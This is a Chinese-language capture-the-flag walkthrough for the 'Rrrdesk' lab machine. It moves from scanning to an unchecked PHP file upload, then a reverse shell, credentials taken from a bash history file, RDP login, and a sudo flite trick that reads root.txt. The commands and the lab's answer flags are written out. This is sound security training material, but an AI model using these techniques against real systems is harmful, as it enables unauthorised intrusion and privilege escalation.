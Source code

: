 # **一、信息收集**

## **1. 主机发现**

首先，使用 `arp-scan` 在 `192.168.205.0/24` 网段中扫描存活主机，确定目标IP地址。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.132 08:00:27:cf:26:10       PCS Systemtechnik GmbH
...
```

命令输出确认了目标主机的IP地址为 `192.168.205.132`。

## **2. 端口扫描**

使用 `nmap` 对目标主机 `192.168.205.132` 进行全端口扫描，以识别对外开放的服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.132
...
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3389/tcp open  ms-wbt-server
...
```

扫描结果表明，目标主机开放了 **22 (SSH)**、**80 (HTTP)** 和 **3389 (RDP)** 端口。我们首先从Web服务入手。

## **3. Web信息探测**

访问 `http://192.168.205.132` 是一个文件上传页面。使用 `gobuster` 进行目录扫描，发现了一个可疑的备份文件 `back.zip`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ gobuster dir -u http://192.168.205.132 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,zip,db,bak -t 64
...
/uploads              (Status: 301) [Size: 320] [--> http://192.168.205.132/uploads/]
/upload.php           (Status: 302) [Size: 0] [--> index.php]
/back.zip             (Status: 200) [Size: 911]
/index.php            (Status: 200) [Size: 14529]
...
```

下载并解压 `back.zip` 文件，获取到网站的源码 `upload.php` 和 `index.php`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ wget http://192.168.205.132/back.zip
...
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ unzip back.zip 
Archive:  back.zip
  inflating: upload.php              
  inflating: index.php
```

# **二、Web渗透与立足点**

## **1. 漏洞分析**

通过审计 `upload.php` 的源代码，我们发现了其核心处理逻辑：

```php
<?php
$upload_dir = '/var/www/webdav/uploads/';
$filename = $_FILES['file']['name'];
$tmp_name = $_FILES['file']['tmp_name'];

if (!empty($filename)) {
    // 生成MD5文件名（保留原扩展名）
    $file_ext = pathinfo($filename, PATHINFO_EXTENSION);
    $new_name = md5(pathinfo($filename, PATHINFO_FILENAME)) . ($file_ext ? ".$file_ext" : '');
    
    // 移动文件到上传目录
    if (move_uploaded_file($tmp_name, $upload_dir . $new_name)) {
        echo "Upload ok";
    } else {
        echo "文件上传失败！";
    }
} else {
    header("Location: index.php");
}
?>
```

代码逻辑存在明显的任意文件上传漏洞。它将上传文件的文件名（不含扩展名）进行MD5哈希，然后拼接上原始扩展名，存储到 `/var/www/webdav/uploads/` 目录下。由于没有对文件类型或内容做任何检查，我们可以上传一个PHP反弹Shell。

## **2. Getshell**

**利用步骤:**

1. 创建一个名为 `reverse.php` 的反弹Shell文件。

2. 计算文件名 "reverse" 的MD5值。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
   └─$ echo -n 'reverse' |md5sum                           
   4d9c2073afa3c2abb817dceb22c34de6  -
   ```

   上传后的文件将被命名为 `4d9c2073afa3c2abb817dceb22c34de6.php`。

3. 在攻击机（Kali）上开启 `netcat` 监听 `4444` 端口。

4. 通过Web页面上传 `reverse.php` 文件。

5. 在浏览器或使用 `curl` 访问 `http://192.168.205.132/uploads/4d9c2073afa3c2abb817dceb22c34de6.php`。

6. 攻击机成功接收到反弹Shell，获得 `www-data` 用户权限。

# **三、权限提升**

## **1. 横向移动 (www-data -> lemon)**

在 `www-data` 的Shell中，我们检查 `/home` 目录，发现了 `lemon` 和 `welcome` 两个用户。通过翻阅 `lemon` 用户家目录下的 `.bash_history` 文件，我们发现了一条可疑记录。

```bash
www-data@Rrrdesk:/home/lemon$ cat .bash_history
...
echo speaker | md5sum
...
```

这强烈暗示用户 `lemon` 的密码可能是 `speaker`。

我先尝试了su切换用户，但是该系统没有su，然后尝试使用SSH连接，虽然 `nmap` 扫描显示SSH服务开放，但尝试使用 `lemon:speaker` 登录SSH失败，有点怀疑是SSH配置限制了该用户的登录（前段时间，群主聊过相关的话题，我看了几眼。经过验证，确实是ssh的配置文件限制了`welcome`、`lemon`用户的登录）。

然而，端口扫描也发现了开放的 **3389 (RDP)** 端口。我们尝试使用该凭据进行RDP连接。

*ps:这里我打的路线不是3389，我是直接在靶机登录了，但是这个思路是犯规的😀。*

```bash
┌──(kali㉿kali)-[~]
└─$ rdesktop -u lemon 192.168.205.132
```

成功登录到 `lemon` 用户的桌面环境。我们在此环境下反弹一个新的Shell到攻击机，以便后续操作，并成功读取到第一个Flag。

```bash
lemon@Rrrdesk:~$ cat user.txt 
flag{user-9ffbf43126e33be52cd2bf7e01d627f9}
```

## **2. 提权至root (lemon -> root)**

在 `lemon` 用户的Shell中，执行 `sudo -l` 来检查其 `sudo` 权限。

```bash
lemon@Rrrdesk:~$ sudo -l
...
User lemon may run the following commands on Rrrdesk:
    (ALL) NOPASSWD: /usr/bin/flite
```

结果显示，`lemon` 用户可以无需密码以root权限执行 `/usr/bin/flite`。`flite` 是一个文本到语音的合成器。通过测试，我们发现 `flite` 的 `-add_lex` 参数可以被用来读取文件。当它尝试读取一个非标准格式的词典文件时，会报错并显示文件的内容。

我们可以利用此特性来读取 `/root` 目录下的 `root.txt` 文件。

```bash
lemon@Rrrdesk:~$ sudo /usr/bin/flite -add_lex /root/root.txt
add_addenda: lex cmu: expected ":" in flag{root-68b329da9893e34099c7d8ad5cb9c940}
```

命令的报错信息成功泄露了 `root.txt` 的内容。

# **四、获取Flag**

我们已经成功获取了系统上的所有Flag。

* **User Flag:**

  ```bash
  lemon@Rrrdesk:~$ cat /home/lemon/user.txt
  flag{user-9ffbf43126e33be52cd2bf7e01d627f9}
  ```

* **Root Flag:**

  ```
  flag{root-68b329da9893e34099c7d8ad5cb9c940}
  ```

渗透测试完成。